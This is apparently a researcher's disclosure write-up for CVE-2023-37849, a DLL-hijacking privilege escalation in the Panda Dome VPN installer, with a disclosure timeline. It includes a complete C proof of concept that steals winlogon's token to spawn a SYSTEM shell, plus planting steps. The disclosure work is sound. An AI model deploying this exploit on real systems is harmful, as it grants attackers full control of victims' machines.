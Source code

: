 ```yaml
---
title : "CVE-2023-37849: Local privilege escalation in Panda Dome VPN for Windows Installer"
excerpt: "CVE-2023-37849"

categories:
    - "0-day"
tags:
    - [Panda Security, 0-day, CVE, EoP, Mitre, LPE]
---
```



## 0x01: Details

- Title: Local privilege escalation in Panda Dome VPN for Windows Installer
- CVE ID: CVE-2023-37849
- Advisory Published: 2023/07/05
- Advisory URL : [https://www.pandasecurity.com/en/support/card?id=100080](https://www.pandasecurity.com/en/support/card?id=100080)
- CVSS : 6.5 MEDIUM(CVSS Version 3.x)

## 0x02: Test Environment

Panda Dome Version : 21.01.00

OS : Windows 10 Pro 64-bit 21H2 (build 19044.1826)

## 0x03: Vulnerability details

Vulnerability that allows a local attacker to gain SYSTEM privileges by exploiting administrator privileges, and that enables the server thread to perform actions on behalf of the client, but within the limits of the client's security context.

## 0x04: Technical description

Many DLLs are loaded from the directory where the Panda Security VPN installer file PANDAVPN.exe is located. If these DLLs are not in the directory, DLLs are loaded from the `C:\Windows\SysWOW64` directory. Among these Dlls, `TextShaping.dll` is loaded, and this DLL load is done with Administrator privileges. So, by placing `TextShaping.dll` in the directory where the Panda Security VPN installer file is located, you can gain SYSTEM privileges by abusing Administrator privileges.

## 0x05: Proof-of-Concept (PoC)

```c
#include <stdio.h>
#include <windows.h>
#include <Psapi.h>
#include <Tlhelp32.h>
#include <sddl.h>

#pragma comment (lib,"advapi32.lib")

int exploit() {
	DWORD lpidProcess[2048], lpcbNeeded, cProcesses;
	EnumProcesses(lpidProcess, sizeof(lpidProcess), &lpcbNeeded);
	HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);

	PROCESSENTRY32 p32;
	p32.dwSize = sizeof(PROCESSENTRY32);

	int processWinlogonPid;

	if (Process32First(hSnapshot, &p32)) {
		do {
			if (wcscmp(p32.szExeFile, L"winlogon.exe") == 0) {
				printf("[+] Located winlogon.exe by process name (PID %d)\n", p32.th32ProcessID);
				processWinlogonPid = p32.th32ProcessID;
				break;
			}
		} while (Process32Next(hSnapshot, &p32));

		CloseHandle(hSnapshot);
	}

	LUID luid;
	HANDLE currentProc = OpenProcess(PROCESS_ALL_ACCESS, 0, GetCurrentProcessId());

	if (currentProc) {
		HANDLE TokenHandle = NULL;
		BOOL hProcessToken = OpenProcessToken(currentProc, TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &TokenHandle);
		if (hProcessToken) {
			BOOL checkToken = LookupPrivilegeValue(NULL, L"SeDebugPrivilege", &luid);

			if (!checkToken) {
				printf("[+] Current process token already includes SeDebugPrivilege\n");
			}
			else {
				TOKEN_PRIVILEGES tokenPrivs;

				tokenPrivs.PrivilegeCount = 1;
				tokenPrivs.Privileges[0].Luid = luid;
				tokenPrivs.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

				BOOL adjustToken = AdjustTokenPrivileges(TokenHandle, FALSE, &tokenPrivs, sizeof(TOKEN_PRIVILEGES), (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL);

				if (adjustToken != 0) {
					printf("[+] Added SeDebugPrivilege to the current process token\n");
				}
			}
			CloseHandle(TokenHandle);
		}
	}
	CloseHandle(currentProc);

	HANDLE hProcess = NULL;
	HANDLE TokenHandle = NULL;
	HANDLE NewToken = NULL;
	BOOL OpenToken;
	BOOL Impersonate;
	BOOL Duplicate;

	hProcess = OpenProcess(PROCESS_ALL_ACCESS, TRUE, processWinlogonPid);

	if (!hProcess) {
		printf("[-] Failed to obtain a HANDLE to the target PID\n");
		return -1;
	}

	printf("[+] Obtained a HANDLE to the target PID\n");

	OpenToken = OpenProcessToken(hProcess, TOKEN_DUPLICATE | TOKEN_ASSIGN_PRIMARY | TOKEN_QUERY, &TokenHandle);

	if (!OpenToken) {
		printf("[-] Failed to obtain a HANDLE to the target TOKEN %d\n", GetLastError());
	}

	printf("[+] Obtained a HANDLE to the target TOKEN\n");

	Impersonate = ImpersonateLoggedOnUser(TokenHandle);

	if (!Impersonate) {
		printf("[-] Failed to impersonate the TOKEN's user\n");
		return -1;
	}

	printf("[+] Impersonated the TOKEN's user\n");

	Duplicate = DuplicateTokenEx(TokenHandle, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &NewToken);

	if (!Duplicate) {
		printf("[-] Failed to duplicate the target TOKEN\n");
		return -1;
	}

	printf("[+] Duplicated the target TOKEN\n");

	BOOL NewProcess;

	STARTUPINFO lpStartupInfo = { 0 };
	PROCESS_INFORMATION lpProcessInformation = { 0 };

	lpStartupInfo.cb = sizeof(lpStartupInfo);

	NewProcess = CreateProcessWithTokenW(NewToken, LOGON_WITH_PROFILE, L"C:\\Windows\\System32\\cmd.exe", NULL, 0, NULL, NULL, &lpStartupInfo, &lpProcessInformation);

	if (!NewProcess) {
		printf("[-] Failed to create a SYSTEM process\n");
		return -1;
	}

	printf("[+] Created a SYSTEM process\n");

	CloseHandle(NewToken);
	CloseHandle(hProcess);
	CloseHandle(TokenHandle);

	return 0;
}

BOOL APIENTRY DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved) {
    switch (fdwReason) {
        case DLL_PROCESS_ATTACH: {
			exploit();
			exit(-1);
            break;
        }

        case DLL_THREAD_ATTACH: {
            break;
        }

        case DLL_THREAD_DETACH: {
            break;
        }

        case DLL_PROCESS_DETACH: {
            break;
        }
    }
    return TRUE;
}
```

1. Use Visual Studio 2019.
2. Compile the project in the DLL directory in x86 Release mode.
3. Rename the compiled dll to `TextShaping.dll` and place it in the same directory as PANDAVPN.exe.
4. Run `PANDAVPN.exe` to perform Panda Security VPN installation.

## 0x06: Affected Products

This vulnerability affects the following product:

- Panda Security VPN Version < 15.14.8

## 0x07: Credit information

HeeChan Kim (@heegong123) of TeamH4C

## 0x08: TimeLine

- 2022/08/01 : First time contacted via Panda Security Email(secure@pandasecurity.com).
- 2022/08/10 : I recevied a file which is patched via Panda Security.
- 2023/07/05 : The vulnerability has been patched, and I have been notified that the vulnerability has been disclosed.
- 2023/07/09 : Request a CVE id via MITRE.
- 2023/07/13 : Received a call from MITRE for CVE-2023-37849.

## 0x09: Reference

- [https://www.pandasecurity.com/en/homeusers/vpn/](https://www.pandasecurity.com/en/homeusers/vpn/)
- [https://www.pandasecurity.com/en/support/card?id=100080](https://www.pandasecurity.com/en/support/card?id=100080)
- [https://nvd.nist.gov/vuln/detail/CVE-2023-37849](https://nvd.nist.gov/vuln/detail/CVE-2023-37849)